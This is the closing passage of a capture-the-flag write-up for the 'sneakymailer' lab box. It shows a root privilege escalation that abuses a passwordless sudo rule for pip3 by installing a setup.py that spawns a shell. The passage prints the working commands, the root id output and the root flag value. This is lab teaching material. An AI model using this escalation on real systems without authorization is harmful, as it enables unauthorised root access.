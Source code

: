     User low may run the following commands on sneakymailer:
        (root) NOPASSWD: /usr/bin/pip3

We look at the [GTFObins page for pip](https://gtfobins.github.io/gtfobins/pip/#sudo)
and run the commands to create a temporary directory, write a simple `setup.py`
script executing a shell and installing this "script" as root which give us a
`root` shell and allow us to read the `root` flag.

    :::text
    low@sneakymailer:~$ TF=$(mktemp -d)
    low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
    low@sneakymailer:~$ sudo /usr/bin/pip3 install $TF
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Processing /tmp/tmp.FVBLBZ1NUO
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    3d8f51cb4506c19d77aea84d76e6a846

# Wrapping up

The root part was really classic and easy. The user part was awesome! I learn so
much on this box and the conception is clearly different from classical boxes as
their is a lot of "interaction" with the "users" (phishing, pypi).

I clearly recommend this box for an "unexpected" journey.
